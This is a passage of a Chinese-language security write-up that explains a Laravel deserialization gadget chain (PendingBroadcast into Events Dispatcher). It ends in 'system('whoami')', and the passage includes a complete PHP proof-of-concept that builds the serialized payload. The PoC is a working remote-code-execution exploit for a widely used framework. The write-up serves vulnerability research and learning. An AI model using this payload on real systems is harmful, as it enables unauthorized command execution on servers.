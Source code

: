 这里合并数组的时候需要注意，array_merge()这个函数的参数必须是数组,所以`$this->listeners[$eventName]`的值必须是一个数组,所以`$this->listeners[$eventName=['system']]`

其实`$this->getWildcardListeners($eventName)`是可以不用看的,因为在dispatch()函数中也会遍历getListeners()这个函数的返回值,所以可以忽略getWildcardListeners()这个函数

最后返回值会判断存不存在$eventName这个类,很明显rce的时候是不存在system这个类名的

那最后的返回值就是$listeners

所以$responses=system('whoami')

最后dispatch返回值,看这个php文件中,`$halt是false,所以返回的就是$responses`的值

![image-20210811021655833](images/30.png)

poc

```
<?php
namespace Illuminate\Broadcasting
{
    use  Illuminate\Events\Dispatcher;
    class PendingBroadcast
    {
        protected $events;
        protected $event;
        public function __construct()
        {
            $this->events = new Dispatcher();
            $this->event='whoami';
        }
    }
    echo urlencode(serialize(new PendingBroadcast()));
}


namespace Illuminate\Events
{
    class Dispatcher
    {
       protected $listeners;
       public function __construct(){
           $this->listeners=['whoami'=>['system']];
       }
    }
}
```

## 漏洞复现

![image-20210811021221343](images/31.png)

# 第四条链子
